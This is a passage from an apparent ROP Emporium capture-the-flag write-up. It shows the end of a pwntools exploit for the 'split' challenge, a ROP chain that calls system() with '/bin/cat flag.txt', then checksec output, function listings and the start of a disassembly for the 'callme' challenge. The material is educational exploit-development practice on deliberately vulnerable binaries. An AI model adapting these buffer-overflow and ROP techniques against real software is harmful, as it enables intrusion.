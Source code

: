 ```python
system_addr = p64(0x000000000040074b)

# --------------------------------------------------
# Step 5: Build the full payload (ROP chain)
# 1. padding to overflow
# 2. pop rdi; ret  → prepare argument
# 3. address of "/bin/cat flag.txt" → goes into rdi
# 4. address of system() → called with rdi as arg
payload = padding + poprdi_addr + bincat_addr + system_addr

# --------------------------------------------------
# Step 6: Send the payload to the vulnerable binary
p = process('./split')     # start the target binary
p.sendline(payload)        # send the exploit payload
p.interactive()            # give us interactive shell (to see the flag)
```
## Callme

```bash
┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/callme]
└─$ checksec callme
[*] '/mnt/c/Users/At0m/Temp/rop/rop_emporium_all_challenges/callme/callme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```

```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini

pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x00000000004008f2 <+0>:     push   rbp
```